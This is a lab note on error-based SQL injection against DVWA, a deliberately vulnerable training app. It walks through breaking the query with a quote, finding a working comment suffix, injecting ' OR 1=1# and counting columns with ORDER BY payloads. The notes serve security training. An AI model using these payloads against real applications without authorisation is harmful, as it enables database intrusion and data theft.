 # Error-based Query SQL Injection

#dvwa #sqli #error-based

Refer to [[Lab Simulation Setup/Webapps/DVWA/Setup#^214bb7|DVWA Lab Setup]] for the attacker machine to map the IP address in the `/etc/hosts`.

## 01 - Vulnerability Detection

### 1.1 - Error Detection

#### 1.1.1 - Break the Query

We will trigger a SQL error using `'` as a prefix to take advantage of unsantized user input.

`<Insert screenshot>`

#### 1.1.2 - Copying the Error Statement

First we breakdown the process step by step to figure it out how join the query to craft our final payload.

```
You have an error in your SQL syntax; check the manual that corresponds to your MariaDB server version for the right syntax to use near ''1''' at line 1
```

- Understand how the developer sees

```
				   ''1'''    at line 1 (SO THIS IS THE ERROR)
```
- Separate the single quotes

```
(DELETE LEFTHANDSIDE SINGLE QUOTE) ' '1' ' ' (DELETE RIGHTHAND SIDE SINGLE QUOTE)

                                     '1' ' ' (DELETE RIGHTHAND SIDE SINGLE QUOTE)
                                     
                                     '1''
```

- Once you deleted the rest of the quotes

```
                                     '1''    (AFTER ELIMATING THE REST WE HAVE THE REMAINING)
```

- Highlight from the right hand side of the quote

```
                                     '1(')'  (SINGLE QUOTE IS PARENTESIZED, WHICH IS BREAKING THE SQL BACKEND
```

#### 1.1.3 - Joining the Query

^bc051d

Now we need a suffix to terminate to get results. In MySQL we will terminate it with `--` to treat it as a suffix. It will treat it as a comment. We can leverage it to craft the payload to exploit further.

`'--`

`<Insert screenshot>`

```
You have an error in your SQL syntax; check the manual that corresponds to your MariaDB server version for the right syntax to use near ''' at line 1
```

Looks like it didn't work. Let's instead try adding the `#` as a suffix.

`'#`

`<Insert screenshot>`

We have no errors.

### 1.2 - Craft Payload

This is the syntax with a place holder of SQL payload.

`'<SQL_Payload>#`

`' OR 1=1#`

`<Insert screenshot>`

### 1.3 - Craft Payload

#### 1.3.1 - Columns Enumeration

^f521af

We need to determine number of columns before we perform

```sql
' ORDER BY 1#
' ORDER BY 2#
' ORDER BY 3#
```

`<Insert screenshot ORDER BY 1>`

`<Insert screenshot ORDER BY 3>`

```
Unknown column '3' in 'order clause'
```

3 - 1 = 2

We have two columns.

## References

- [Web Application Pentesting – Manual SQL Injection With Error Based String Method](https://gbhackers.com/manual-sql-injection/)

- [Acunetix: SQLi - How it works](https://www.acunetix.com/blog/articles/sqli-how-it-works/)
